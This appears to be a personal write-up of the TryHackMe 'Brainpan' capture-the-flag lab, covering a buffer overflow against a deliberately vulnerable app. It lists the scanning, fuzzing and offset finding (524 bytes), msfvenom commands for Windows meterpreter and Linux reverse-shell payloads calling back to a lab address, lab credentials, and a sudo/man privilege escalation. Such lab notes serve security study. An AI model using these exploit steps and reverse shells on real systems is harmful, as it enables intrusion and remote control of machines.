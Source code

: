 # brainpanTHM
brainpan machine exploit
nmap scan: simple http server on python: port10000 + 9999 port abyss app
gobuster scan: /bin directory - prainpan.exe file => buffer overflow?

 get exe onto own machine: wget http://10.10.3.217:10000/bin/brainpan.exe
 actualy to windows machine:  certutil -urlcache -f http://10.10.3.217:10000/bin/brainpan.exe
 
 nc 10.10.3.217 9999  
 bash```                                                                                                                                                                                                                2 ⨯
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> qsq
                          ACCESS DENIED

```

rdesktop -u admin -p password 10.10.55.35

> fuzzing at 600 bytes crashed the app
> /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000 < for payload 400 bigger than succeeded fuzzing value
> !mona findmsp -distance 1000
> found offset 524 
> no badchars
> ESP -> “\xf3\x12\x17\x31”
> payload: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.2.34 LPORT=1234 EXITFUNC=thread -b "\x00" -f c
> paylaod for brainpan machine: msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.9.2.34 LPORT=1234 EXITFUNC=thread -b "\x00" -f c

in machine:
sudo -l -> sudo /home/anansi/bin/anansi_util -> gtfobins via man command privesc
